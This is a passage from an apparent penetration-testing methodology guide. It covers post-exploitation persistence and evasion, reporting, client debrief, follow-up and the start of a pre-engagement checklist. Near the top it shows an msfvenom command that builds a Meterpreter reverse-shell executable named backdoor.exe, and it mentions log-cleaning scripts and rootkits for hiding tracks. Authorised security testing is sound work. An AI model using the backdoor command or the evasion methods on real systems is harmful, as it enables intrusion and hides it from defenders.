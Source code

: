                     bash

                    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe > backdoor.exe

                Empire: Post-exploitation framework.
                Custom Scripts: Depending on the environment.
        Hide tracks to evade detection.
            Tools:
                Log Cleaner Scripts: Custom scripts to clear logs.
                Rootkits: Malicious software to hide processes or files.
        Verify the persistence of access over time.
            Regularly check if the backdoor or other persistence mechanism is still active.

6. Reporting Phase
6.1. Documentation

    Objective: Document all findings and activities.
    Tasks:
        Create detailed reports of vulnerabilities and exploits.
            Include technical details, screenshots, logs, and impact assessments.
        Provide screenshots, logs, and other evidence.
            Tools:
                Snipping Tool (Windows), Gnome Screenshot (Linux).
                KeePassXC: Store sensitive information securely.
                ScreenRec: For recording videos.
        Recommend remediation steps for identified issues.
            Provide actionable recommendations to fix the vulnerabilities.

6.2. Client Debrief

    Objective: Present findings to the client.
    Tasks:
        Review the penetration test report with the client.
            Highlight critical findings and potential business impacts.
        Answer any questions and clarify technical details.
        Discuss remediation strategies and next steps.
            Offer guidance on how to prioritize and address the vulnerabilities.

6.3. Follow-Up

    Objective: Ensure that vulnerabilities are addressed.
    Tasks:
        Provide support for remediation efforts.
            Be available for consultation during the remediation process.
        Perform a retest if necessary to confirm fixes.
            Tools: Re-run previous tests to verify that the issues have been resolved.
        Update documentation with the results of the retest.

Comprehensive Checklist for Penetration Testing
Pre-Engagement Phase

 Scope defined and confirmed with the client.
 Team members selected and roles assigned.

     All legal permissions obtained.
